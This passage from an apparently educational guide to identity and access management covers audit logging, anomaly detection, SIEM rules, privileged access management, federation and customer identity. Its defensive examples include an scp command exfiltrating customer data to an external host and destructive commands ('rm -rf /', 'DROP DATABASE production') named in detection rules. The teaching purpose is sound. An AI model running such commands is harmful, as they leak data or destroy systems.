  "Resource": "arn:aws:s3:::my-bucket/*"
}
```
(Grants only read/write to specific S3 bucket—follows least privilege)

#### Audit

**Purpose:** Verifying that **Administration, Authentication, and Authorization were done correctly** through continuous monitoring and logging.

**Why Audit Is Critical:**
- **Compliance:** Regulations (SOX, HIPAA, GDPR, PCI-DSS) require **proof** of who accessed what and when
- **Incident Response:** Audit logs are forensic evidence during breach investigations
- **Deterrence:** Knowing activities are logged discourages malicious behavior
- **Detection:** Anomalies in audit logs reveal attacks in progress

**What to Log:**

**Identity Events to Monitor:**
- **Authentication attempts** (success/failure, source IP, device, time)
- **Privilege escalation** (user requests admin rights)
- **Access to sensitive data** (view PHI, download PII, export financial records)
- **Permission changes** (role modifications, new entitlements granted)
- **Account lifecycle** (creation, modification, deletion, dormant accounts)

**Example: Audit Log Entry**
```json
{
  "timestamp": "2024-01-15T14:23:45Z",
  "event": "authentication_success",
  "user": "jsmith@company.com",
  "source_ip": "203.0.113.42",
  "location": "New York, USA",
  "device": "iPhone 15",
  "mfa_used": "push_notification",
  "application": "Salesforce"
}
```

**User Behavior Analytics (UBA):**

**The Challenge:** Manual review of millions of log entries is impossible.

**The Solution:** Use **machine learning** to establish baseline behavior, then **detect anomalies**.

**How UBA Works:**



**Anomaly Detection Examples:**

| Behavior | Baseline | Anomaly | Risk Score | Action |
|----------|----------|---------|------------|--------|
| **Login Time** | 9 AM - 5 PM weekdays | Login at 2 AM Sunday | Medium | Alert + require MFA step-up |
| **Data Access Volume** | 10-20 files/day | 5,000 files in 10 minutes | **High** | Block + alert SOC (data exfiltration) |
| **Geographic Location** | New York office | Login from Russia (never been) | **High** | Block + force password reset |
| **Failed Logins** | 0-2/day | 50 failed attempts in 1 hour | Medium | Lockout account + alert |
| **Privilege Use** | Never uses admin rights | Suddenly accesses domain controller | **High** | Alert + require justification |

**Real-World UBA Scenario:**

**Attack: Compromised Credentials**
1. Attacker phishes employee, steals password
2. Attacker logs in from attacker's location (different city/country)
3. **UBA detects:** Impossible travel (employee can't be in two places simultaneously)
4. **System response:** Block login + alert SOC + force password reset
5. **Outcome:** Attack stopped before data access

**SIEM Integration:**

IAM systems send audit logs to **SIEM (Security Information and Event Management)** for centralized analysis.

**Why SIEM Matters:**
- **Correlation:** Combine IAM logs with firewall, endpoint, application logs to see full attack chain
- **Alerting:** Trigger incidents when specific patterns occur
- **Compliance Reporting:** Generate audit reports for regulators

**Example SIEM Correlation Rule:**
```
IF (failed_login_attempts > 10 in 5 minutes)
   AND (source_ip NOT IN corporate_network)
   AND (user = privileged_account)
THEN create_high_priority_alert("Brute force attack on admin account")
     AND auto_block(source_ip)
```

**Compliance Audit Requirements:**

**Regulatory Logging Mandates:**

| Regulation | Requirement | Retention Period | Example |
|------------|-------------|------------------|--------|
| **SOX** | All access to financial systems | 7 years | CFO accessed general ledger |
| **HIPAA** | All access to PHI (Protected Health Information) | 6 years | Nurse viewed patient record |
| **GDPR** | All processing of personal data | Varies (typically 3-7 years) | User downloaded customer emails |
| **PCI-DSS** | All access to cardholder data | 1 year (3 months immediately available) | Admin viewed credit card numbers |

**Audit Best Practices:**

> [!IMPORTANT] The Four W's of Audit Logging
> Every audit log entry must answer:
> 1. **WHO** performed the action? (user identity)
> 2. **WHAT** did they do? (action taken)
> 3. **WHEN** did it occur? (timestamp with time zone)
> 4. **WHERE** did it happen? (source IP, location, device)
> 
> Bonus: **WHY?** (business justification—if available)

**Access Certification (Recertification):**

**The Problem:** Permissions accumulate over time ("access creep").
- Employee changes roles but keeps old permissions
- Temporary access granted, never revoked
- Dormant accounts remain active

**The Solution:** Periodic reviews where managers **certify** that subordinates' access is still appropriate.

**Certification Workflow:**



**Certification Questions:**
- Does this employee still need access to this application?
- Should this employee still have admin rights?
- Is this account still active (or should it be disabled)?

> [!TIP] Automate Certification
> Manual spreadsheet-based certification is painful and error-prone. Use IGA tools (SailPoint, Saviynt) to:
> - Auto-generate access reports
> - Send email notifications to managers
> - Track responses and escalate non-responders
> - Auto-revoke access if certification deadline passes

### Privileged Access Management (PAM)

**The Problem: Privileged Accounts Are the "Keys to the Kingdom"**

Privileged accounts (root, Administrator, sa, etc.) have **unrestricted access** to critical systems:
- Domain controllers (manage all user accounts)
- Database servers (access all data)
- Cloud consoles (create/delete infrastructure)
- Network devices (change firewall rules)

**Why Privileged Accounts Are High-Risk:**
- **80% of breaches involve privileged credentials** (Verizon DBIR)
- **Lateral Movement:** Attackers escalate from regular user to admin, then move freely
- **Insider Threats:** Rogue admins can cause catastrophic damage
- **Shared Passwords:** Multiple admins share the same "root" password → no accountability

**The "Dirty Secret" of IT:**

> [!WARNING] The Shared Root Password Problem
> **The Contradiction:** Security policies demand unique passwords for end-users. However, for the most sensitive accounts—**privileged users**—organizations often share a single password.
> 
> **Why This Happens:**
> - Multiple admins need access to the same servers
> - Applications require service accounts with hardcoded passwords
> - Emergency access requires shared credentials
> 
> **The Risk:**
> - **No accountability:** If server is compromised, who did it? (Everyone used the same "root" login)
> - **Password reuse:** Admins write down shared password or reuse it elsewhere
> - **No rotation:** Changing shared password requires coordinating with entire team
> - **Insider threat:** Ex-admin still knows the password after termination

**The PAM Solution:**

PAM systems enforce **individual accountability** and **secure credential storage** for privileged accounts.

**How PAM Works:**



**Key PAM Capabilities:**

#### 1. Password Vaulting

**Purpose:** Securely store privileged credentials in encrypted vault.

**How It Works:**
- Admin requests access to server via PAM interface
- PAM retrieves password from vault, injects into connection
- **Admin never sees the actual password**
- After session ends, PAM **rotates password** (password changes, invalidating any copies)

**Benefits:**
- No shared passwords (each admin uses personal login to PAM)
- Automatic rotation (passwords change after each use)
- Centralized storage (one place to audit/revoke)

#### 2. Session Management & Recording

**Purpose:** Monitor and record everything privileged users do.

**What's Captured:**
- **Video recording:** Full screen capture of session
- **Keystroke logging:** Every command executed
- **File transfers:** What data was copied
- **Metadata:** Who, what, when, where

**Use Cases:**
- **Forensics:** Replay session to investigate incident
- **Compliance:** Prove to auditors that access was appropriate
- **Deterrence:** Admins less likely to abuse privileges if recorded

**Example: Suspicious Activity Detection**
```
Session Recording Alert:
- Admin: john.smith
- Target: Production Database
- Duration: 2 AM - 3 AM (unusual time)
- Commands: 
  1. SELECT * FROM customers (exported 1M records)
  2. scp customer_data.csv john@external-server.com
- Risk: Data exfiltration
- Action: Alert SOC, investigate
```

#### 3. Just-In-Time (JIT) Access

**Purpose:** Grant privileges only when needed, auto-revoke after.

**Traditional Model (Standing Privileges):**
- Admin has permanent admin rights (24/7)
- Expanded attack window (compromised account has persistent access)

**JIT Model (Zero Standing Privileges):**
- Admin has **no privileges** by default
- Requests temporary elevation for specific task
- Access auto-expires after time limit

**JIT Workflow:**




**Benefits:**
- **Reduced attack surface:** Privileges only exist when actively used
- **Accountability:** Each access request tied to business justification
- **Compliance:** Audit trail of why access was granted

#### 4. Privileged Session Monitoring (Real-Time)

**Purpose:** Detect and stop malicious activity **during** the session (not after).

**How It Works:**
- PAM analyzes commands in real-time
- If dangerous command detected, **terminate session immediately**

**Example Rules:**
```
IF command = "DROP DATABASE production"
   THEN terminate_session + alert_SOC + lock_account

IF file_transfer > 1GB
   AND destination = external_ip
   THEN pause_session + require_manager_approval
```

**Real-World Scenario:**
- Admin session to production server
- Admin types: `rm -rf /` (delete everything)
- PAM detects dangerous command
- **Action:** Session killed before command executes + SOC alerted

#### 5. Application-to-Application Password Management

**The Problem:** Applications use **service accounts** with hardcoded passwords.
- Example: Web app connects to database using `dbuser:hardcoded_password`
- Password stored in configuration file (plaintext or weakly encrypted)
- If attacker compromises web server, they get database password

**The Solution:** PAM manages service account passwords.
- Application retrieves password from PAM API (encrypted in transit)
- PAM rotates password regularly
- Application never stores password locally

**PAM Products:**
- CyberArk
- BeyondTrust
- Delinea (formerly Thycotic)
- HashiCorp Vault

> [!IMPORTANT] PAM Implementation Priority
> Start with highest-risk accounts:
> 1. **Domain Admins** (Windows Active Directory)
> 2. **Cloud Admin Consoles** (AWS root, Azure Global Admin)
> 3. **Database Admins** (production databases)
> 4. **Network Device Admins** (firewalls, routers)
> 
> Then expand to service accounts and lower-privilege systems.

### Extensions: Federation and CIAM

Modern IAM extends beyond internal employees to encompass **external users** (customers, partners) and **cloud applications** (SaaS).

#### Identity Federation

**Purpose:** Enable users to access external systems **without creating separate accounts** in each system.

**The Problem Without Federation:**
- Employee needs access to 10 SaaS applications (Salesforce, Workday, Office 365, etc.)
- **Traditional approach:** Create separate username/password in each app
- **Result:** Password fatigue, security risk (weak/reused passwords), provisioning overhead

**The Federation Solution:**
- Organization acts as **Identity Provider (IdP)**
- SaaS apps act as **Service Providers (SP)**
- User authenticates once to IdP, then SSO into all SaaS apps

**How Federation Works (SAML Example):**



**Benefits of Federation:**
- **Centralized Identity:** One place to manage users (corporate directory)
- **SSO:** One login for all apps
- **Instant De-provisioning:** Terminate employee once, access revoked everywhere
- **Security:** Enforce corporate policies (MFA, conditional access) across all SaaS apps

**Federation Protocols:**

| Protocol | Use Case | How It Works | Example |
|----------|----------|--------------|--------|
| **SAML 2.0** | Enterprise SSO (workforce) | XML-based token exchange | Office 365, Salesforce, Workday |
| **OAuth 2.0** | API authorization (not authentication) | Delegated access tokens | "Allow app to read your Google Drive" |
| **OpenID Connect (OIDC)** | Modern authentication | OAuth 2.0 + identity layer (JSON) | "Login with Google/Facebook" |

**Trust Establishment:**
- IdP and SP exchange **metadata** (certificates, endpoints)
- SP trusts IdP's **digital signature** on SAML assertions
- If signature is valid, SP trusts the identity claim

**Use Case: B2B Partner Access**
- Company A employees need access to Company B's portal
- Instead of creating accounts in Company B's system:
  - Company A acts as IdP
  - Company B acts as SP
  - Employees authenticate to Company A, federate to Company B
- **Benefit:** Company B doesn't manage Company A's employees (provisioning, passwords, terminations)

#### Customer Identity and Access Management (CIAM)

**Purpose:** Manage **customer/consumer identities** (not employees).

**Why CIAM Is Different from Workforce IAM:**

| Aspect | Workforce IAM | CIAM |
|--------|--------------|------|
| **User Count** | Thousands | Millions |
| **Security Posture** | High (enforce MFA, strong passwords) | Balanced (security vs. friction) |
| **Provisioning** | Centralized (HR-driven) | Self-service (user registration) |
| **Privacy** | Internal policies | Strict regulations (GDPR, CCPA) |
| **User Experience** | Tolerate friction (corporate policy) | Minimize friction (revenue impact) |
| **Identity Proofing** | High (employee verification) | Variable (depends on use case) |**CIAM Use Cases:**
- **E-commerce:** Customer accounts for online shopping
- **Banking:** Online banking login
- **Healthcare:** Patient portals
- **Media/Streaming:** Netflix, Spotify user accounts

**CIAM Challenges:**

**1. Scale:**
- Millions of users (vs. thousands in workforce IAM)
- Massive login spikes (Black Friday, product launches)
- Global distribution (low latency required)

**2. Friction vs. Security:**
- **Too much friction:** Customers abandon registration (lost revenue)
- **Too little security:** Account takeover, fraud**Example Friction Points:**
- **Password requirements:** "12 characters, uppercase, symbols" → user gives up
- **Email verification:** "Check your email to verify" → user never completes
- **MFA enforcement:** "Enter code from SMS" → user abandons checkout**CIAM Solutions:**
- **Progressive Profiling:** Collect minimal info initially, ask for more later
- **Social Login:** "Login with Google/Facebook" (reduce friction)
- **Risk-Based Auth:** Require MFA only for high-risk actions (large purchase, address change)
- **Passwordless:** Magic links, biometrics (Face ID)**3. Privacy Compliance:**
- **GDPR (Europe):** Right to access, delete, port data
- **CCPA (California):** Opt-out of data sale
- **COPPA (Children):** Parental consent for users under 13**CIAM Requirements:**
- **Consent Management:** Track what user agreed to (marketing emails, cookies)
- **Data Minimization:** Collect only necessary data
- **Right to be Forgotten:** Delete user data on request
- **Data Portability:** Export user data in machine-readable format

**CIAM Platforms:**
- Auth0 (Okta)
- Azure AD B2C
- AWS Cognito
- Ping Identity
- ForgeRock

**Example CIAM Flow:**




> [!TIP] CIAM Best Practices
> **Start Simple:**
> - Allow social login (Google, Facebook, Apple)
> - Collect minimal data initially (email only)
> - Passwordless where possible (magic links)
> 
> **Add Security Where It Matters:**
> - High-value transactions: Require MFA step-up
> - Account changes: Verify via email/SMS
> - Suspicious behavior: Challenge user (CAPTCHA, verification)
> 
> **Respect Privacy:**
> - Transparent consent (explain what data you collect and why)
> - Easy opt-out (unsubscribe, data deletion)
> - Secure storage (encrypt PII)

## Summary: IAM as the Foundation

Identity and Access Management is the **cornerstone of modern security**:

**Key Takeaways:**
1. **IAM is the new perimeter** → Verify identity everywhere, not just at network edge
2. **Four A's are interdependent** → Administration, Authentication, Authorization, Audit must all work together
3. **MFA is non-negotiable** → Blocks 99.9% of automated attacks
4. **Privileged accounts require extra protection** → PAM prevents 80% of breach paths
5. **Federation extends security** → SSO to SaaS while maintaining control
6. **CIAM balances security and friction** → Protect customers without losing revenue

**Implementation Roadmap:**

| Phase | Priority Initiatives | Expected Outcome |
|-------|---------------------|------------------|
| **Phase 1: Foundation** | - Implement MFA for all users<br>- Deploy SSO for SaaS apps<br>- Centralize user provisioning | - 99% attack reduction<br>- 40% fewer helpdesk tickets<br>- Faster onboarding |
| **Phase 2: Privileged Access** | - Deploy PAM for admin accounts<br>- Enforce JIT access<br>- Session recording | - Eliminate shared passwords<br>- Individual accountability<br>- Compliance audit trails |
| **Phase 3: Advanced** | - Risk-based conditional access<br>- UBA anomaly detection<br>- Passwordless authentication | - Context-aware access<br>- Proactive threat detection<br>- Improved user experience |

**Remember:** IAM is not a one-time project but a **continuous process**. User needs change, threats evolve, and regulations update. Regular reviews and improvements are essential.
